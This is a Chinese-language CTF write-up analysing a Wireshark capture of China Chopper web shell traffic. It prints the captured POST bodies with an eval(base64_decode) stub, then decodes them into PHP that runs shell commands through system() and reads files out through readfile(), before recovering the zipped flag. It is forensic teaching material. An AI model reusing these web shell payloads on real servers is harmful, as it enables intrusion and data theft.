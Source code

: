 # 流量分析简记

### ——记一次CTF中的流量分析

源于学院内ctf训练营期末考试原题

首先拿到一个zip内部仅有wireshark抓包文件，打开后查看抓包文件如下图

![image-20210722133338551](C:\Gitbook\Import\heart1ess_s_ctf\blogs\assets\Analyze1.png)

由于题目提示为菜刀连接的特征，因而寻找POST请求发现如下图

![image-20210722133612415](C:\Gitbook\Import\heart1ess_s_ctf\blogs\assets\Analyze2.png)

可以看到有两个包长度与其他包不同，则对于长度不同的两个包分别分析，首先是第一个包体（截取关键字段）：

![image-20210722133825706](C:\Gitbook\Import\heart1ess_s_ctf\blogs\assets\Analyze3.png)

```
Form item: "cmd" = "@eval(base64_decode($_POST[z0]));"
Form item: "z0" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyAneyRzfSciOiIvYyB7JHN9Ijskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIpOztlY2hvKCJ8PC0iKTtkaWUoKTs="
Form item: "z1" = "L2Jpbi9zaA=="
Form item: "z2" = "Y2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkLyI7emlwIC1QIGluZGV4cGhwIGZpbGUgdGVzdC5wbmcgcmVhZG1lO2VjaG8gW1NdO3B3ZDtlY2hvIFtFXQ=="
```

可以看出`z0`、`z1`、`z2`三个均为base64加密过的一些数据，对其分别进行解密可得：

```
z0 = 
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
;
$p=base64_decode($_POST["z1"]);
$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c '{$s}'":"/c {$s}";$r="{$p} {$c}";
@system($r." 2>&1");;echo("|<-");die();

z1 = /bin/sh

z2 = cd "/var/www/html/upload/";zip -P indexphp file test.png readme;echo [S];pwd;echo [E]
```

不难看出，`z0`内部定义了`$p`和`$s`，值分别为`z1`和`z2`。`$c`的意图为检验首位是否为`/`，即判断是否绝对地址，若非绝对地址则`$c`开头为`/c`，并没有查到`/bin/sh /c`有什么用，而且在shell内部也报错。初步判断该段指令为将`/var/www/html`内的`readme`和`test.png`压缩成`file.zip`且密码为indexphp。

接下来分析第二个特殊长度的包体：

```
Form item: "cmd" = "@eval(base64_decode($_POST[z0]));"
Form item: "z0" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7"
Form item: "z1" = "/var/www/html/upload/file.zip"
```

进行base64解码后可得：

```
z0 = 
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
;
$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");
if(@fgetc($fp)){
	@fclose($fp);
	@readfile($F);
}
else{
	echo("ERROR:// Can Not Read");
}
;
echo("|<-");
die();

z1 = "/var/www/html/upload/file.zip"
```

不难看出第二个包体的内容是读取`file.zip`，因而通过追踪该http包的http流可得到`file.zip`的二进制内容，通过winhex组装后得到最终的`file.zip`包体。解压后发现readme中的flag。

* ### 小结

  在流量分析中读取以及上传的文件内容都会被流量所记录，因而流量分析中可以通过字节流进行组装从而完成重要文件的还原。